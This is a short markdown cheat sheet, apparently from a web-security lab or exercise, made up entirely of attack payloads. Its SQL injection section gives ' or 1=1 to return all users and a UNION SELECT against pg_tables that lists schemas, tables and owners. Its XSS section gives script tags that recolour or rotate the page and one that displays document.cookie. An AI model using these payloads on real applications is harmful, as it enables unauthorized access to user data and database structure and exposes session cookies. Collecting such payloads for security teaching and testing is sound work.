 SQL INJECTION
-
//Use this to get all users
---
' or 1=1

//Use this to get the information about users and all the databases and their tables
---
' or 1=1 UNION SELECT null  AS id, schemaname as name, tablename as email, tableowner as password FROM pg_tables where '1' ='1


XSS
-
Change background
---
<script>
document.body.style.backgroundColor = "red";
</script>

Print Cookie
----
<script>
alert( document.cookie );
</script>


Rotate
---
<script>
document.body.style.transform = "rotate(45deg)";
</script>
